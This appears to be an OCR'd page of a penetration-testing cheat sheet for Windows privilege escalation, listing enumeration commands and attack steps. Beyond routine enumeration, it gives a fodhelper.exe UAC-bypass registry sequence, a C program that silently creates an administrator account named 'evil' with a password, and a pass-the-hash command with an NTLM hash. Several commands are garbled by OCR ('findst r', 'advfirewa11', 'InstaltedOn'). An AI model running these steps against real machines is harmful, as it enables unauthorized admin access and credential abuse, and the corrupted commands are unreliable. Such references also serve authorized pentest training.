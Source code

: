 ## Windows privilege Escalation

* Automated enumeration scripts

```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe

// https://github.com/pentestmonkey/windows-privesc-check
windows-privesc-check2.exe --dump -a -o report.txt
```

* Check hidden files

```
Get-ChildItem -Path . -Recurse -Force
dir /S /a
```

* Enumerating Users

```
whoami
whoami /all		#groups, permissions, etc
whoami /groups	# check cmd integrity level
net user
net user /domain			# AD users
net user <username>
net user jeff_admin /domain # AD user jeff_admin
echo %username%
net accounts		# domain's account policy
```

* Get System information

```
systeminfo | findst r /B /C: "OS Name" /C:"OS Version" /C:"System Type"
hostname
```

* Enumerating Running Processes and Services

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

tasklist /SVC
```

* Enumerating Networking Information

```
ipconfig /all
route print
netstat -ano
```

* Enumerating Firewall Status and Rules

```
netsh advfirewa11 show currentprofile
netsh advfirewall firewall show rule name=all
```

* Enumerating Scheduled Tasks

```
schtasks /query /fo LIST /v
```

* Enumerating Installed Applications and Patch Levels

```
// Does not list applications that do not use the Windows Installer
wmic product get name, version, vendor

wmic qfe get Caption, Description, HotFixID, InstaltedOn
```

* Enumerating Readable/Writable Files and Directories

```
accesschk.exe -uws "Everyone" "C:\Program Files"

// powershell cmdlet
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

* Enumerating Unmounted Disks

```
mountvol
```

* Enumerating Device Drivers

```
// list drivers, use powershell to filter output
driverquery.exe / v / fo csv | Convertfrom-CSV | Select-Object 'Display Name', ' Start Mode', 'Path'

// Get driver version and other details 
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

* Enumerating Binaries That AutoElevate

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

// If any of this key is enabled (set to 1), we could craft an MSI file and run it to elevate our privileges.
```

* Elevating Medium to High integrity shell using fodhelper.exe (admin required)

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
C:\Windows\System32\fodhelper.exe
```

* Checking file permissions

```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

* C program to create admin user - compile with gcc to create exeutable

```
#include <stdlib.h>
int main ()
{
int i;
i = system ( "net user evil Ev!lpass /add") ;
i = system ("net localgroup administrators evil /add");
return 0;
}
```

* Pass-The-Hash attacks(requires SMB + NTLM)

Existing tools - PsExec from Metasploit, Passing-the-hash toolkit, and Impacket

```
// https://github.com/byt3bl33d3r/pth-toolkit
kali@kali:~$ pth-winexe -U offsec%aad3b435b51484eeaad3b435b51484ee:2892d26cdf84d7a78e2eb3b9f05c425e //10.11.0.22 cmd
```